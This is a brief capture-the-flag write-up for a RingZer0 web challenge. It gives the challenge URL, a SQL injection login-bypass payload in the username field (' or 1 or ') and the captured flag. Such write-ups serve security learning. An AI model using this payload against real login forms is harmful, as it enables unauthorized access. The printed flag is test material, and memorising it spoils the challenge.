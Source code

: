 <h1>Don't mess with Noemie; she hates admin!</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10052/</p>
<h3>Solution</h3>
<p>Payload SQL</p>
<pre>
Username : ' or 1 or '
Password : bla
</pre>
<h3>Flag</h3>
<pre>
FLAG-Yk3Hfovvb5kALU9hI2545MaY
</pre>
